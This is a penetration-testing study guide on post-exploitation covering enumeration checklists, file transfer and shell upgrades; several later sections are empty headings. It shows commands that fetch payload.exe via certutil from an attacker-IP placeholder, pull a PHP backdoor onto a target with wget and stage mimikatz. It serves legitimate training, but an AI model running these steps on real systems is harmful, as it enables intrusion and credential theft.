




# Post-Exploitation

> #### ⚡ Prerequisites
>
> * Basic familiarity with Linux & Windows
> * Basic understanding of TCP & UDP protocols
> * Basic familiarity with Metasploit and Exploitation
>
> #### 📕 Learning Objectives
>
> * Perform **post exploitation**
> * Perform Win/Linux **local enumeration**
> * Upgrade **shells** and **elevate privileges**
> * Establish **persistence** and **dump** account **hashes**
> * **Pivot** to other systems and **clear** tracks
>
> #### 🔬 Training list - PentesterAcademy/INE Labs
>
> `subscription required`
>
> - [Linux Privilege Escalation](https://www.attackdefense.com/listing?labtype=linux-security-priv-esc&subtype=linux-security-priv-esc-basic)
> - [Windows Privilege Escalation](https://www.attackdefense.com/listing?labtype=windows-priv-esc&subtype=windows-priv-esc-basic)
> - [Linux Pivoting](https://www.attackdefense.com/listing?labtype=linux-security-pivoting&subtype=linux-security-pivoting-getting-started)
> - [Linux Persistence](https://www.attackdefense.com/listing?labtype=linux-security-maintain-access&subtype=linux-security-maintain-access-getting-started)
> - [Windows Persistence](https://www.attackdefense.com/listing?labtype=windows-maintaining-access&subtype=windows-maintaining-access-basics)
>

## [Post-Exploitation](http://www.pentest-standard.org/index.php/Post_Exploitation) Introduction

🗒️ **Post-Exploitation** is the final phase of interaction with a target during a pentest. Using various attacking techniques, the pentester determines the value of the compromised system and keeps control of it for future usage, depending on the kind of access and the stealthiness he must have.

It is *what the pentester does after the initial foothold* and the techniques depends on the target characteristics (operating system, infrastructure).

- The techniques must follow the ***Rules of Engagement*** agreed upon with the client **before the penetration test**, based on the company infrastructure and services.

> ❗**Necessary permissions are required to conduct post-exploitation techniques like modifying services, system configuration, logs deletion, perform privilege escalation.**

### Methodology

1. Local Enumeration
2. Transferring Files
3. Upgrading Shells
4. Privilege Escalation
5. Persistence
6. Dumping & Cracking Hashes
7. Pivoting
8. Clearing Tracks

*The post-exploitation process repeats itself after pivoting to another new target.*

> 🔬 The following techniques are covered in the
>
> * 🪟 [Windows Post-Exploitation Labs](5-post-exploit/win-post-exp.md)
> * 🐧 [Linux Post-Exploitation Labs](5-post-exploit/linux-post-exp.md)

## Windows Local Enumeration

> 📝📌 [Checklist - Local Windows Privilege Escalation | HackTricks](https://book.hacktricks.xyz/windows-hardening/checklist-windows-privilege-escalation)
>
> 🔬 [Windows Post-Exploitation Lab](5-post-exploit/win-post-exp.md)

### System Information

*What is running on the target system?*

- Hostname
- OS Name, Build, Service Pack, Architecture
- Installed updates/Hotfixes

### Users & Groups

- Current user, privileges & additional user information
- Other users
- Groups
- Members of the built-in administrators group

### Network information & Services

- IP address & network adapter
- Internal networks and other hosts on the network
- TCP/UDP services + ports
- Routing table
- Windows Firewall state
- Running processes & services
- Scheduled tasks

A **process** is an istance of a running program.

A **service** is a process that runs in the background.

### Automating Local Enumeration

The Local Enumeration process can be automated with the help of scripts and Metasploit Framework modules.

- Be time efficient
- Additional enumeration & exploitation information

**Tools**:

- [JAWS - Just Another Windows (Enum) Script](https://github.com/411Hall/JAWS)
- [winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

## Linux Local Enumeration

> 📝📌 [Checklist - Linux Privilege Escalation | HackTricks](https://book.hacktricks.xyz/linux-hardening/linux-privilege-escalation-checklist)
>
> 🔬 [Linux Post-Exploitation Lab](5-post-exploit/linux-post-exp.md)

### System Information

- Hostname
- Distribution & release version
- Kernel version & Architecture
- CPU information
- Disk & mounted drives
- Installed packages

### Users & Groups

- Current user & privileges
- Other users
- Groups

### Network information & Services

- IP address & network adapter
- Internal networks and other hosts on the network
- TCP/UDP services + ports
- Running services
- Scheduled Cron Jobs

### Automating Local Enumeration

The Local Enumeration process can be automated with the help of scripts and Metasploit Framework modules. It is very useful to be time efficient.

**Tools**:

- [LinEnum - rebootuser](https://github.com/rebootuser/LinEnum)
- [linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

## Transferring Files

### [Python Web Server](https://developer.mozilla.org/en-US/docs/Learn/Common_questions/Tools_and_setup/set_up_a_local_testing_server)

**`Python`** modules can be useful for setting up a web server that hosts the files required for transfer. These modules 

- Check `Python` version

```bash
python -V
python3 -V
py -v # on Windows
```

- [**`SimpleHTTPServer`**](https://docs.python.org/2.7/library/simplehttpserver.html#module-SimpleHTTPServer) - `python2` module

```bash
# If Python version returned is 2.X
python -m SimpleHTTPServer <PORT_NUMBER>
```

- [**`http.server`**](https://docs.python.org/3/library/http.server.html) - `python3` module

```bash
# If Python version is 3.X
python3 -m http.server <PORT>
```

```bash
# On Windows, try 
python -m http.server <PORT>
py -3 -m http.server <PORT>
```

**`e.g.`**

- Copy a file into the current directory and setup the web server to download the file into the target system

```bash
cp /usr/share/windows-resources/mimikatz/x64/mimikatz.exe .

# Python 2.7
python -m SimpleHTTPServer 80

# Python 3.7
python3 -m http.server 80
```

- Files can be downloaded from a browser or using a `GET` request



### Transferring Files

#### Windows

- Set up a web server to host the `payload.exe` file 

```bash
# Attacker machine
cd /root/Desktop/ # payload.exe must be here
python3 -m http.server 80
```

- After gaining access to the Windows target system and spawned a command shell session, download the payload file on the target system using the `certutil` tool in `cmd`.

```bash
# Windows Target machine
cd C:\Temp
certutil -urlcache -f http://<ATTACKER-IP>/payload.exe payload.exe
```

#### Linux

- After exploiting the Linux target, transfer the `php-backdoor.php` file to the target.
- 2 terminal sessions are necessary - use `tmux` utility to get more sessions.

[**`tmux`**](https://github.com/tmux/tmux/wiki) - *is a program, **terminal multiplexer**, which runs in a terminal and allows multiple other terminal programs to be run inside it*

```bash
sudo apt install tmux -y
```

```bash
# Attacker machine
tmux
# ... Exploitation with MSFconsole in Terminal 0 ...
# CTRL+B and then C to open a new terminal session

cd /usr/share/webshells/php/
ip -br -c a
	192.219.50.2
python3 -m http.server 80
```

```bash
# CTRL+B then 0 (zero) to navigate to the first Terminal session
# Target machine
/bin/bash -i
wget http://192.219.50.2/php-backdoor.php
```



## Interactive Shells

> 🔬 Interactive shells techniques are covered in an INE vulnerable Lab. Commands are below, assuming the target SAMBA service is already exploited through the `exploit/linux/samba/is_known_pipename` MSF module.

- After the exploitation (using `MSFconsole`, `netcat`, etc), a **non-interactive shell** is obtained since it doesn't provide with a prompt
  - This is a command shell session



- Display the list of **shells** on the target system

```bash
cat /etc/shells
    # /etc/shells: valid login shells
    /bin/sh
    /bin/dash
    /bin/bash
    /bin/rbash

/bin/bash -i

/bin/sh -i
```



### Spawn [TTY Shells](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys#spawn-shells)

#### Bash

- Upgrade to a simple **`bash`** or **`sh`** session (assuming `bash` is installed on the target system)

```bash
/bin/bash -i
/bin/sh -i
SHELL=/bin/bash script -q /dev/null

# Setup environment variables
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
export TERM=xterm
export SHELL=/bin/bash
```

#### [Python](https://docs.python.org/3/library/pty.html)

- From the non-interactive shell session, check `Python` version (if present)

```bash
python --version
	Python 2.7.9
```

- Spawn a **`bash`** session with `Python`. Specified shell must be listed inside `/etc/shells`

```python
python -c 'import pty; pty.spawn("/bin/bash")'
```

**Fully Interactive TTY**

- Background (`CTRL+Z`) the current remote shell
- Update the local terminal line settings with [`stty`](https://man7.org/linux/man-pages/man1/stty.1.html) and bring the remote shell back with `fg`

```bash
stty raw -echo && fg
```

- Reinitialize the terminal with `reset`

```bash
reset
```

> 📌 For more information on **Full TTY Shells** check
>
> - [Full TTY Shells - HackTricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys)
> - [Upgrade to Fully Interactive TTYs - 0xffsec](https://0xffsec.com/handbook/shells/full-tty/)

#### Perl

```bash
perl -h
```

- Spawn a **`bash`** session with `Perl`. 

```perl
perl -e 'exec "/bin/bash";'
```

## Windows Privilege Escalation


## Linux Privilege Escalation


## Windows Persistence


## Linux Persistence


## Dumping & Cracking Hashes


## Pivoting

### Internal Network Recon


### Pivot


## Clearing Tracks

### Windows

### Linux